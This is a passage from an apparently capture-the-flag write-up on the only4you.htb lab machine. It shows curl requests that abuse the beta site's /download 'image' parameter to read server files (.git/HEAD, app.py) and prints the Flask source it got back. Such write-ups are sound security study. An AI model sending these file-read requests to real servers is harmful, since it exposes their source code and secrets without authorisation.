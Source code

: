 ```
}
```

Here in the proxy_pass segments, we are given the full paths to our web roots:
`/var/www/only4you.htb/` and `/var/www/beta.only4you.htb/`. For python webservers, the main code is usually written as `app.py` or possibly `main.py`, however first I wanted to check any `git` info is available:
```html
$ curl http://beta.only4you.htb/download -d "image=/var/www/only4you.htb/.git/HEAD"
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/list">/list</a>. If not, click the link.
```

There was nothing here, so we can explore the source code of `app.py` on the main webpage:
```
$ curl http://beta.only4you.htb/download -d "image=/var/www/only4you.htb/app.py"
```
Source code:
```python
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        email = request.form['email']
        subject = request.form['subject']
        message = request.form['message']
        ip = request.remote_addr

        status = sendmessage(email, subject, message, ip)
        if status == 0:
            flash('Something went wrong!', 'danger')
        elif status == 1:
            flash('You are not authorized!', 'danger')
        else:
            flash('Your message was successfuly sent! We will reply as soon as possible.', 'success')
        return redirect('/#contact')
    else:
        return render_template('index.html')

@app.errorhandler(404)
def page_not_found(error):
    return render_template('404.html'), 404

@app.errorhandler(500)
def server_errorerror(error):
    return render_template('500.html'), 500

@app.errorhandler(400)
def bad_request(error):
    return render_template('400.html'), 400

@app.errorhandler(405)
def method_not_allowed(error):
    return render_template('405.html'), 405
```